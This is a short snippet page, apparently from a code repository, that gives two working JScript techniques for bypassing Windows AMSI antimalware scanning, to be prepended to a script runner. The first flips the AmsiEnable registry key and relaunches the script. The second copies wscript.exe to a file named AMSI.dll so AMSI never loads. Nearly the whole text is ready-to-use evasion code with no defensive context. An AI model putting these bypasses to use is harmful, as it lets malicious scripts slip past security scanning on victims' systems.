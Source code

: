 Prepend to Jscript script. It sets AmsiEnable registry Key to 0 if it is set to 1, which is how Amsi Bypass is achieved.

```js
var sh = new ActiveXObject('WScript.Shell');
var key = "HKCU\\Software\\Microsoft\\Windows Script\\Settings\\AmsiEnable";
try{
var AmsiEnable = sh.RegRead(key);
if(AmsiEnable!=0){
throw new Error(1, '');
}
}catch(e){
sh.RegWrite(key, 0, "REG_DWORD");
sh.Run("cscript -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58}" +WScript.ScriptFullName,0,1);
sh.RegWrite(key, 1, "REG_DWORD");
WScript.Quit(1);
}
```

Method#2 with tricking that file is called amsi.dll which won't load amsi at all. Code snip has to be prepended to JS Runner.

```js
var filesys= new ActiveXObject("Scripting.FileSystemObject");
var sh = new ActiveXObject('WScript.Shell');
try
{
if(filesys.FileExists("C:\\Windows\\Tasks\\AMSI.dll")==0)
{
throw new Error(1, '');
}
}
catch(e)
{
filesys.CopyFile("C:\\Windows\\System32\\wscript.exe","C:\\Windows\\Tasks\\AMSI.dll");
sh.Exec("C:\\Windows\\Tasks\\AMSI.dll -e:{F414C262-6AC0-11CF-B6D1-00AA00BBBB58} "+WScript.ScriptFullName);
WScript.Quit(1);
}

```